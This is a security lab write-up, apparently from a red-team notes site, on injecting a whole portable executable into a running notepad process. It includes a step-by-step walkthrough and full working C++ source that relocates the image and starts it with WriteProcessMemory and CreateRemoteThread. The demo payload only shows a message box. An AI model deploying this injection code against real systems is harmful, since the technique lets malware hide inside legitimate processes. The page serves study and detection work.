 ```yaml
---
description: Code Injection
---
```


# PE Injection: Executing PEs inside Remote Processes

This is a quick lab of a simplified way of injecting an entire portable executabe \(PE\) into another running process. Note that in order to inject more complex PEs, additional DLLs in the target process may need to be loaded and Import Address Table fixed and for this, refer to my other lab [Reflective DLL Injection](reflective-dll-injection.md#resolving-import-address-table).

## Overview

In this lab, I wrote a simple C++ executable that consists of two functions:

* `main` - this is the function that is responsible for injection of the PE image of the running process into a remote/target process
* `InjectionEntryPoint` - this is the function that will get executed by the target process \(notepad in my case\) once it gets injected. 
  * This function will pop a `MessageBox` with a name of the module the code is currently running from. If injection is successful, it should spit out a path of notepad.exe.

High level process of the technique as used in this lab:

1. Parse the currently running image's PE headers and get its `sizeOfImage`
2. Allocate a block of memory \(size of PE image retrieved in step 1\) in the currently running process. Let's call it `localImage`
3. Copy the image of the current process into the newly allocated local memory
4. Allocate new memory block \(size of PE image retrieved in step 1\) in a remote process - the target process we want to inject the currently running PE into. Let's call it `targetImage`
5. Calculate delta between memory addresses `localImage` and `targetImage`
6. Patch the PE you're injecting or, in other words, relocate it/rebase it to `targetImage`. For more information about image relocations, see my other lab [T1093: Process Hollowing and Portable Executable Relocations](process-hollowing-and-pe-image-relocations.md)
7. Write the patched PE into `targetImage` memory location
8. Create remote thread and point it to `InjectionEntryPoint` function inside the PE

## Walkthrough

Getting `sizeOfImage` of the current process \(local process\) that will be injecting itself into a target process and allocating a new memory block in the local process:

![](../../.gitbook/assets/image%20%2889%29.png)

In my case, the new memory block got allocated at address `0x000001813acc0000`. Let's copy the current process's image in there:

![](../../.gitbook/assets/image%20%28172%29.png)

Let's allocate a new block of memory in the target process. In my case it got allocated at `0x000001bfc0c20000`:

![](../../.gitbook/assets/image%20%28134%29.png)

Calculate the delta between 0x000001bfc0c20000 and 0x000001813acc0000 and apply image base relocations. Once that's done, we can move over our rebased PE from 0x000001813acc0000 to 0x000001bfc0c20000 in the remote process using `WriteProcessMemory`. Below shows that our imaged has now been moved to the remote process:

![](../../.gitbook/assets/image%20%2859%29.png)

Finally, we can create a remote thread and point it to the `InjectionEntryPoint` function inside the remote process:

```cpp
CreateRemoteThread(targetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)((DWORD_PTR)InjectionEntryPoint + deltaImageBase), NULL, 0, NULL);
```

![New thread getting created inside notepad.exe](../../.gitbook/assets/newthread.gif)

## Demo

Below shows how we've injected the PE into the notepad \(PID 11068\) and executed its function `InjectionEntryPoint` which printed out the name of a module the code was running from, proving that the PE injection was succesful:

![](../../.gitbook/assets/pe-injection.gif)

## Code

```cpp
#include "pch.h"
#include <stdio.h>
#include <Windows.h>

typedef struct BASE_RELOCATION_ENTRY {
	USHORT Offset : 12;
	USHORT Type : 4;
} BASE_RELOCATION_ENTRY, *PBASE_RELOCATION_ENTRY;

DWORD InjectionEntryPoint()
{
	CHAR moduleName[128] = "";
	GetModuleFileNameA(NULL, moduleName, sizeof(moduleName));
	MessageBoxA(NULL, moduleName, "Obligatory PE Injection", NULL);
	return 0;
}

int main()
{
	PVOID imageBase = GetModuleHandle(NULL);
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)imageBase;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)imageBase + dosHeader->e_lfanew);
	
	PVOID localImage = VirtualAlloc(NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_READWRITE);
	memcpy(localImage, imageBase, ntHeader->OptionalHeader.SizeOfImage);
	
	HANDLE targetProcess = OpenProcess(MAXIMUM_ALLOWED, FALSE, 11068);
	PVOID targetImage = VirtualAllocEx(targetProcess, NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

	DWORD_PTR deltaImageBase = (DWORD_PTR)targetImage - (DWORD_PTR)imageBase;

	PIMAGE_BASE_RELOCATION relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)localImage + ntHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].VirtualAddress);
	DWORD relocationEntriesCount = 0;
	PDWORD_PTR patchedAddress;
	PBASE_RELOCATION_ENTRY relocationRVA = NULL;
	
	while (relocationTable->SizeOfBlock > 0)
	{
		relocationEntriesCount = (relocationTable->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(USHORT);
		relocationRVA = (PBASE_RELOCATION_ENTRY)(relocationTable + 1);

		for (short i = 0; i < relocationEntriesCount; i++)
		{
			if (relocationRVA[i].Offset)
			{
				patchedAddress = (PDWORD_PTR)((DWORD_PTR)localImage + relocationTable->VirtualAddress + relocationRVA[i].Offset);
				*patchedAddress += deltaImageBase;
			}
		}
		relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)relocationTable + relocationTable->SizeOfBlock);
	}

	WriteProcessMemory(targetProcess, targetImage, localImage, ntHeader->OptionalHeader.SizeOfImage, NULL);
	CreateRemoteThread(targetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)((DWORD_PTR)InjectionEntryPoint + deltaImageBase), NULL, 0, NULL);

	return 0;
}
```

## References

{% embed url="https://www.andreafortuna.org/2018/09/24/some-thoughts-about-pe-injection/" %}

{% embed url="https://blog.sevagas.com/PE-injection-explained" %}

{% embed url="https://www.malwaretech.com/2013/11/portable-executable-injection-for.html" %}

